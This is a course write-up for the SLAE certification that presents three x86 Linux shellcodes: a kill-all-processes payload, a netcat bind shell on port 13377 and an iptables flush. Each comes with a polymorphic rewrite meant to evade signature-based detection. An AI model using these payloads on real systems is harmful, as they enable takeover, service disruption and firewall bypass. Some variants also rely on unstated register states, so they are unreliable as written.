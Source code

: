 # SLAE Assignment #6

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE-935

## Assignment

* Take up 3 shellcodes from Shell-­‐Storm and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger 150% of the existing shellcode
* Bonus points for making it shorter in length than original

## Polymorphic Shellcode1

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-212.php
* Original Size: 11 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-212.php
; Filename: shellcode1.nasm
; Author:  SLAE-935
;
; Purpose: execute kill(-1, SIGKILL)

section .text
    global _start
 
_start:
    ; kill(-1, SIGKILL);
    mov al, 37
    push byte -1
    pop ebx
    mov cl, 9
    int 0x80
```

Polymorphic version:

```
; Filename: shellcode1.poly.nasm
; Author:  SLAE-935
;
; Purpose: execute kill(-1, SIGKILL)

section .text
        global _start
 
_start:
        ; kill(-1, SIGKILL);
        add al, 37
        not ebx
        add cl, 9
        int 0x80
```

* New size: 9 bytes
* Dimension ratio: 75% of original

## Polymorphic Shellcode2

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-804.php
* Original Size: 64 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-804.php
; Filename: shellcode2.nasm
; Author:  SLAE-935
;
; Purpose: This shellcode will listen on port 13377 using netcat and give /bin/sh to connecting attacker

section .text

    global _start
 
_start:
    xor eax,eax
    xor edx,edx
    push 0x37373333
    push 0x3170762d
    mov edx, esp
    push eax
    push 0x68732f6e
    push 0x69622f65
    push 0x76766c2d
    mov ecx,esp
    push eax
    push 0x636e2f2f
    push 0x2f2f2f2f
    push 0x6e69622f
    mov ebx, esp
    push eax
    push edx
    push ecx
    push ebx
    xor edx,edx
    mov  ecx,esp
    mov al,11
    int 0x80
```

Polymorphic version:

```
; Filename: shellcode2.poly.nasm
; Author:  SLAE-935
;
; Purpose: This shellcode will listen on port 13377 using netcat and give /bin/sh to connecting attacker

section .text
    global _start
 
_start:
    shr eax, 16
    push 0x37373333
    push 0x3170762d
    push esp
    pop esi
    ;mov esi, esp
    push eax
    push 0x68732f6e
    push 0x69622f65
    push 0x76766c2d
    push esp
    pop edi
    push eax
    push 0x636e2f2f
    push 0x2f2f2f2f
    push 0x6e69622f
    push esp
    pop ebx
    push eax
    mov edx, eax
    push esi
    push edi
    push ebx
    push esp
    pop ecx
    add al,11
    int 0x80
```

* New size: 63 bytes
* Dimension ratio: 98% of original

## Polymorphic Shellcode3

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-825.php
* Original Size: 43 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-825.php
; Filename: shellcode3.nasm
; Author:  SLAE-935
;
; Purpose: iptables --flush

section .text

    global _start
 
_start:
    xor eax, eax
    push eax
    push word 0x462d
    mov esi, esp
    push eax
    push 0x73656c62
    push 0x61747069
    push 0x2f6e6962
    push 0x732f2f2f
    mov ebx, esp
    push eax
    push esi
    push ebx
    mov ecx, esp
    mov edx, eax 
    mov al, 0xb
    int 0x80
```

Polymorphic version:

```
; Filename: shellcode3.poly.nasm
; Author:  SLAE-935
;
; Purpose: iptables --flush

section .text

    global _start
 
_start:
    shr eax, 16
    push eax
    push word 0x462d
    push esp
    pop esi
    push eax
    push 0x73656c62
    push 0x61747069
    push 0x2f6e6962
    push 0x732f2f2f
    push esp
    pop ebx
    push eax
    push esi
    push ebx
    mov ecx, esp
    shl edx, 16
    push byte 11
    pop eax
    int 0x80
```

* New size: 46 bytes
* Dimension ratio: 106% of original